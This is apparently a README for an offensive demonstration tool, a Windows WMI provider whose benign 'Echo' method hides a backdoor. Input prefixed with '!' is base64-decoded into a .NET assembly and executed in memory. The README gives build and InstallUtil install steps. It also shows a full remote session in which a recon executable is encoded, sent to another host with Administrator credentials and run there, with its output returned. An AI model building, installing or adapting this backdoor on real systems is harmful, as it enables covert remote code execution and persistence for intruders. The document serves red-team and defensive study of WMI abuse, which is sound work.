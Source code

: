 # Scrkipt Kiddie WMI Provider

This repo contains the source code necessary to build the Script Kiddie WMI Provider example from the blog, "WMI Providers for Script Kiddies". Please see the blog for a description of the WMI provider.

# Capabilities

The Script Kiddie provider demonstrates how to implement a WMI method provider. It implements/exposes one method: Echo. This method has a begnin function and a secret function.

## Begnin Function

The Echo method simply returns the input argument prepended with the string "Echo: ".

## Secret Function

If the input argument begins with '!', then the method will:

1. Decoded the input argument
2. Load the decoded .NET assembly into memory
3. Execute the .NET assembly from memory
4. Return the .NET assembly output

# Build

1. Open the solution with Visual Studio
2. Build the release version
3. Binaries are generated in bin/Release/ subdirectory

# Install

1. Copy the binaries to target (preferrably C:\Windows\System32\wbem\)
2. Install the .NET assembly using Microsoft .NET Install Utility
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe C:\Windows\System32\wbem\Win32_Echo.dll
```
NOTE: On x86 systems the Install Utility directory is under C:\Windows\Microsoft.NET\Framework

# Use

## Begnin Function
```
PS C:\tmp> Invoke-WMIMethod -Namespace ROOT\test -Class Win32_Echo -Name Echo -ArgumentList "Hello World!"


__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 1
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ReturnValue      : Echo: Hello World!
PSComputerName   :
```

## Secret Function
```
PS C:\tmp> .\recon.exe

recon
=============================
userName:  WIN10-X64-DEV\todda1
dnsName:   Win10-x64-Dev
ipAddress: 192.168.0.134

PS C:\tmp> $exeContent = Get-Content C:\tmp\recon.exe -Encoding byte

PS C:\tmp> $encodedContent = [System.Convert]::ToBase64String($exeContent)

PS C:\tmp> Invoke-WMIMethod -Credential 192.168.0.104\Administrator -ComputerName 192.168.0.104 -Namespace "ROOT\test" -Class "Win32_Echo" -Name "Echo" -ArgumentList "!$encodedContent"


__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 1
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ReturnValue      :
                   recon
                   =============================
                   userName:  WIN10-X86\Administrator
                   dnsName:   win10-x86
                   ipAddress: 192.168.0.104

PSComputerName   :
```